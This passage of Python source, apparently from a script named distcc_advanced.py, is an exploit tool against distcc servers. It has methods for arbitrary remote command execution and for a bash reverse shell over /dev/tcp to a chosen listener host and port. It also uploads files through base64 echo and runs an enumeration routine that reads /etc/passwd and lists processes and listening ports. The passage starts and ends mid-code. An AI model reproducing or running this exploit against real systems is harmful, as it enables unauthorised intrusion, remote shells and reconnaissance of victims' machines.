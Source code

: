 ```python
            return False
    
    def get_reverse_shell(self, lhost, lport):
        """Get reverse shell"""
        command = f"/bin/bash -i >& /dev/tcp/{lhost}/{lport} 0>&1"
        return self.send_command(command)
    
    def execute_command(self, command):
        """Execute single command"""
        return self.send_command(command)
    
    def upload_file(self, local_file, remote_path):
        """Upload file to target"""
        try:
            with open(local_file, 'rb') as f:
                content = f.read()
                
            # Base64 encode for safe transmission
            import base64
            encoded = base64.b64encode(content).decode()
            
            command = f"echo '{encoded}' | base64 -d > {remote_path}"
            return self.send_command(command)
            
        except Exception as e:
            print(f"[-] File upload failed: {e}")
            return False

def main():
    if len(sys.argv) < 3:
        print("Usage: python3 distcc_advanced.py <target-ip> <action> [options]")
        print("Actions:")
        print("  cmd '<command>'          - Execute single command")
        print("  shell <lhost> <lport>    - Get reverse shell") 
        print("  upload <local> <remote>  - Upload file")
        print("  enum                     - Enumerate system")
        sys.exit(1)
    
    target_ip = sys.argv[1]
    action = sys.argv[2]
    
    exploit = DistccExploit(target_ip)
    
    if action == "cmd" and len(sys.argv) >= 4:
        command = sys.argv[3]
        print(f"[+] Executing: {command}")
        exploit.execute_command(command)
        
    elif action == "shell" and len(sys.argv) >= 5:
        lhost = sys.argv[3]
        lport = sys.argv[4]
        print(f"[+] Getting reverse shell to {lhost}:{lport}")
        exploit.get_reverse_shell(lhost, lport)
        
    elif action == "enum":
        print("[+] Enumerating system...")
        commands = [
            "id",
            "uname -a", 
            "cat /etc/passwd",
            "ps aux",
            "netstat -tlpn"
        ]
```